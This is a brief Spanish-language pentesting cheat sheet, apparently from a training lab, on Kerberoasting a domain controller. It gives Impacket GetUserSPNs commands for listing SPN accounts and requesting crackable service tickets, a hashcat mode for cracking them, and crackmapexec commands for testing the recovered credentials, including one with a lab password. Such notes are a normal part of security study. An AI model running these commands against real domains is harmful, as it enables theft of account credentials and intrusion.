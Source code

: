 # Impacket
Debemos utilizarlo contra un DC y necesitamos tener credenciales de un usuario (en texto plano o en NTLM), una shell en contexto de un usuario de dominio o una cuenta de system.

Listar los usuarios con SPN

    sudo impacket-GetUserSPNs -dc-ip <dc_ip> <dominio>/<user>

Pedir tickets para todos los usuarios:

    sudo impacket-GetUserSPNs -dc-ip <ip_dc> <dominio>/<user>:'pass' -request -outputfile <file_de_guardado>

Pedir tickets para un usuario puntual:

    sudo impacket-GetUserSPNs -dc-ip <ip_dc> <dominio>/<user> -request-user <user_victima> -outputfile <file_de_guardado>  (es importante generar el export así luego podemos crackear el archivo)


Una vez tenemos el hash podemos crackearlo con hashcat 13100

y luego podemos probar conectarnos:

    sudo crackmapexec smb <dc_ip> -u <user> -p <pass>


# Crackmapexec

    crackmapexec ldap dc01.inlanefreight.htb -u grace -p 'Inlanefreight01!' --kerberoasting kerberoasting.out
